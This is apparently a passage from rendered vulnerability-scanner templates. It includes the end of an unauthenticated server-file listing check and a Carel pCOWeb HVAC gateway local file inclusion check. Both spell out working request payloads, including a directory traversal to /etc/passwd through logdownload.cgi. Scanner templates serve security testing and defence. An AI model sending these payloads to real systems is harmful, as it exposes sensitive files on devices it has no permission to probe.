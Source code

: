 - Method - GET

### URL

- {{BaseURL}}/appmonitor/protected/selector/server_file/files?folder=C://&suffix=
- {{BaseURL}}/appmonitor/protected/selector/server_file/files?folder=/&suffix=

### Matchers

**Type - word**

- part - body
- words
  1. {"name":"Windows","path":"C:\\\\Windows","folder":true}
  2. {"name":"root","path":"/root","folder":true}
- condition - or

**Type - word**

- words
  1. application/json
- part - header

**Type - status**

- status
  1. 200

---

# Carel pCOWeb HVAC BACnet Gateway 2.1.0 - Local File Inclusion

## Description

- Carel pCOWeb HVAC BACnet Gateway 2.1.0 is vulnerable to local file inclusion because of input passed through the 'file' GET parameter through the 'logdownload.cgi' Bash script is not properly verified before being used to download log files. This can be exploited to disclose the contents of arbitrary and sensitive files via directory traversal attacks.
- severity - high
- tags - carel,lfi,traversal,unauth,bacnet

## Requests

- Method - GET

### URL

- {{BaseURL}}/usr-cgi/logdownload.cgi?file=../../../../../../../../etc/passwd

### Matchers

**Type - regex**
